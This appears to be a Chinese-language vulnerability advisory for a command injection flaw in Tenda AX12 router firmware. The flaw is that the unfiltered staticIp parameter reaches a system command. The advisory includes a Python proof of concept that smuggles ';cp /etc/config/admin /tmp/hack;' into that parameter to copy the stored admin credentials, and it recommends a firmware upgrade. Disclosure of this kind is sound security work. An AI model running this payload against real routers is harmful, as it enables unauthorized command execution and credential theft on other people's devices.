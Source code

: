 ## 漏洞描述 ##
设备：Tenda-AX12

固件版本： V22.03.01.16_CN([AX12升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/download/detail-3170.html))

漏洞类型：命令注入

攻击效果：任意命令执行

## 漏洞成因 ##
该漏洞产生的原因是提供的fast_setting_internet_set接口中，调用的函数sub_42581C内部，未对用户传入的可控参数staticIp的值进行过滤，而造成的命令注入。

sub_42581C()
![](.\image\1.png)

其先获取到staticIp参数的值赋值给到v4，然后调用sprintf函数格式化输入到v5字符串，最后调用doSystemCmd_route执行命令。其过程中未对staticIp的值进行任何字符过滤处理，这意味着我们可以通过这个参数构造任意命令，最终进入到doSystemCmd_route执行。

## POC ##

命令注入的poc，实际情况中，需要先进行身份验证。

```python
import requests

url = "http://192.168.112.131/goform/fast_setting_internet_set"
cmds = ";cp /etc/config/admin /tmp/hack;"


payload = {'wanType': '1', 'staticIp': cmds}
r = requests.post(url, data=payload)
print(r.status_code)
print(r.content)
```

攻击效果如下，是将配置目录下保存着userpass的admin文件给拷贝到了tmp/hack中。
![](.\image\2.png)

## 建议

建议将固件升级到最新版本，[V22.03.01.21](https://www.tenda.com.cn/download/detail-3237.html)。
